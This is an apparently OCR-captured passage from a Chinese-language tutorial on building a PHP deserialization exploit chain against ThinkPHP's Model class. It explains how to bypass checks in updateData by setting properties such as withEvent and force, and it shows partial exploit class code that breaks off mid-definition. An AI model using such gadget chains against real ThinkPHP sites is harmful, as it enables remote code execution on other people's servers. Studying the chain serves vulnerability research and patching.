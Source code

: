```php

        function __construct()

        {

            $this->lazySave = true;

            $this->data = ['xxx'];

            $this->withEvent = false;

            $this->exists = true;

        }

    }

}
```



#### 4）跟进updateData方法

在updateData方法体中，我们需要进入checkAllowFields()方法。那么就必须绕过前两个if判断语句，不

能让它们提前结束方法。

首先是`$this->trigger`方法不能返回`false`，刚才我们讲过，只要让 `$this->withEvent=false` ，那么，`trigger`方法就返回true。

第一个if判断语句就绕过了。

第二个if判断语句是不能让`$data`为空，我们进入`getChangedData`方法查看。

在`getChangedData`方法体中，只要让` $this->force=true` ，$data就可以得到`$this->data`的值，上面我们讲过，`$this->data`不为空。所以这个方法最终返回的`$data`不为空。

现在两个if判断都被绕过了,我们继续完善exploit：

```php
<?php

namespace think{

    abstract class Model{

        private $lazySave = false;

        private $data = [];

        protected $withEvent = true;

        private $exists = false;

        private $force = false;

        function __construct()

        {

            $this->lazySave = true;

            $this->data = ['xxx'];

            $this->withEvent = false;

            $this->exists = true;

```